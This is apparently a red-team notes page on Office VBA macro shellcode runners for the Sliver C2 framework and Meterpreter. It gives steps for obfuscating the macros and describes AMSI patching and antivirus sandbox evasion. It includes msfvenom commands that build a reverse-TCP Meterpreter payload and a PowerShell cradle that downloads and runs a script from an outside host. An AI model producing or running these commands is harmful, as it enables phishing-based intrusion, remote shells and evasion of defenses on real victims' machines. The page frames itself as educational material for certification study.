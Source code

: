 # Macro Shellcode Runners

## References
https://github.com/hackinaggie/OSEP-Tools-v2/tree/main/Macros
Most of the the tools are from hackinaggie's OSEP-Tools-v2 and customized in some ways to work with Sliver C2
Another shout out to Cyb3rDudu for MacroSliver https://github.com/Cyb3rDudu/MacroSliver
This allows the use of https sliver profile that leverages the process hollowing shellcode runner. 

# Sliver Macro
The following VBA Macros contains a powershell cradle intended for runner.ps1 within ToolLibrary/sliver-setup

## References
Macro Obfuscator: ToolLibrary/Macro/sliver-vbaMacroObfuscator.ps1
VBS Macro: ToolLibrary/Macro/sliver-vbaWordPsCradle.vbs

## Usage
{% code overflow="wrap" %}
```bash
# Use the vbaMacroObfuscator to obfuscate the powershell code eunner, the minmgmts, win32_process method value and docm file name. 
┌──(kali㉿kali)-[/opt/ToolLibrary/Macro]
└─$ pwsh ./sliver-vbaMacroObfuscator.ps1                                                                    

# Update output of Apples > sliver-vbaWordPsCradle.vbs on line 48

# Update the output of Win32 WMI Provider (winmgmts:) > sliver-vbaWordPsCradle.vbs on line 51 GetObject(Yellow("131117122121115121128127070"))

# Update the output of Win32_Process.Create() Method value > sliver-vbaWordPsCradle.vbs on line 51 Get(Yellow("099117122063062107092126123111113127127"))

# Update Name of docm > sliver-vbaWordPsCradle.vbs on line 44
```
{% encode %}

## Sliver (HTTPS) Macro
Reference - https://github.com/Cyb3rDudu/MacroSliver


## WordMacro.vbs
Reference: https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunnerBasic.vbs

This is just a basic version of WordMacroRunner.vbs without AMSI Bypass or IP Check.

Contains a meterpreter stageless payload that has obfuscation requested through msfvenom
{% code overflow="wrap" %}
```bash
┌──(kali㉿kali)-[/]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.227 LPORT=8080 EXITFUNC=thread --encrypt xor --encrypt-key a -f vbapplication 
```
{% encode %}

## WordMacro+AMSI.vbs
Reference: https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunner.vbs

This is a baseline runner that loads the shellcode into WINWORD.exe and executes it. Has capabilities to detect AMSI and patch it if found (for both 32-bit and 64 bit) as well as contains shellcode for both 32-bit and 64 bit Word so it can execute after detecting architecture.

Uses a sleep call to determine if being simulated by AV. Also has functionality to make sure the target is in the 192.168.0.0/16 IP range, except you have to uncomment it.

The shellcode is not obfuscated at all, that is left up to the reader. Much more can be done to obfuscate the entire script but if I did that here it would be hard to even understand the script, which would defeat its educational purpose.
{% code overflow="wrap" %}
```bash
┌──(kali㉿kali)-[/]
└─$ msfvenom -p windows/x64/exec -f vbapplication CMD="powershell.exe -c (new-object net.webclient).DownloadString('http://192.168.45.227/runner.ps1')" EXITFUNC=thread
```
{% encode %}


